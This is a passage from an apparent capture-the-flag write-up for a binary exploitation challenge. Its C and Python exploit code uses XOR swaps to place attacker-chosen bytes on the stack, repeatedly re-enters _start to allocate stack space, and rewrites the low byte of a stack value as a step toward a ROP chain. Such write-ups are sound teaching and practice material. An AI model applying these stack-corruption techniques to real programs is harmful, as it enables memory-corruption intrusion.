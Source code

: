 ```c  
 /* SECOND */  
 *a = *a^*b; // b = &buffer^IMMEDIATE_2  
 *b = *a^*b; // *(&buffer^IMMEDIATE_2) ^= &buffer^IMMEDIATE_2  
 *a = *a^*b; // ignore

 buffer = *(long*)((long)&buffer^IMMEDIATE_2);  
 assert(buffer == DONOR^IMMEDIATE_1^IMMEDIATE_2);  
}  
```

So why is this important? Well we can basically get user controlled byte
values from stack, by abusing the immediate saved in `boogie` and `woogie`. We
simply swap their values with the offset and supplied immediate:

```python  
# user controlled byte values in buffer  
def create_char(char):  
 assert char < 0x100, "char to large"  
 woogie_boogie(char, WOOGIE_STACK)  
 woogie_boogie(0, char)  
```

Sadly this only works if there is enough space allocated on stack, but we can
guarantee that by loop main a few times back _start (which allocates 0xe0
bytes per iteration)

```python  
# allocate  
PAD = 0xe0  
BASE = STACK - 0x1f8 # base of buffer

linfo("allocate")  
ALLOCS = 7  
for i in range(ALLOCS):  
 print(f'{i}/{ALLOCS}', end='\r')  
 woogie_boogie(START_REF, ROP)  
 woogie_boogie(0, 0)  
 BASE -= PAD  
```

> Note: after reading the [Official
> Writeup](https://enzo.run/posts/lactf2024/) i realized that using negative
> offsets probably would have been easier (and wouldn't have required
> additional allocs).

We now apply all our accumulated knowledge to edit the first byte of any value
on stack:

```python  
DONOR = base_diff(0x7fffffffe318, 0x7fffffffe370) # donor offset  
GOAL_ADR = 0x1248  
DONOR_ADR = 0x1280 # DONOR

assert (GOAL_ADR ^ DONOR_ADR) < 0x100, "difference larger than one byte"  
assert ((GOAL_ADR ^ DONOR_ADR) < 0x7) == 0, "can't change first three bits"

# FIRST  
char = GOAL_ADR & 0xff # IMMEDIATE_1  
ptr = BASE^char # &buffer^IMMEDIATE_1

up = base_diff(ptr)  
lhex(ptr, "up: ")  
woogie_boogie(up, DONOR) # # *(&buffer^IMMEDIATE_1) = DONOR  
create_char(char) # buffer = IMMEDIATE_1  
woogie_boogie(B_STACK, 0) # *(&buffer^IMMEDIATE_1) ^= &buffer^IMMEDIATE_1

# SECOND  
```